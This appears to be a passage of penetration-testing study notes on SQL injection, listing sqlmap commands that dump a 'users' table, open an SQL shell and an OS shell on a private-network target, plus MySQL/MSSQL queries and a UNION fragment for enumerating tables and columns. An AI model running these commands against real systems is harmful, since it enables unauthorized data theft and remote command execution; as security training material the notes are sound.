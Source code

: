 Dump info:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb -T users --dump
```
  
Can try for a SQL shell:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --sql-shell
```

Or an OS shell:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --os-shell
```
	- Need to choose back-end DBMS (ASP, ASPX, PHP, JSP)  
	- Will ask “Retrieve command from standard output”. (yes, no, always)  
  
  
  
### Language Syntax:

**MySQL/ MSSQL**  

```sql
information_schema
```
	DB metadata  

```sql
@@version
```
	Shows db version  

```sql
user()
```
	Shows user and hostname of the account interacting w/ the db  

```sql
database()
```
	Shows name of the db in use  

```sql
system_user()
```
	Shows account name used for Windows authentication used by the db  

```sql
table_name FROM information_schema.tables
```
	Enumerates through all tables listed in schema  

```sql
UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables
```

```sql
column_name FROM information_schema.columns WHERE table_name='users'
```
	Retrieves column names from the _users_ table  
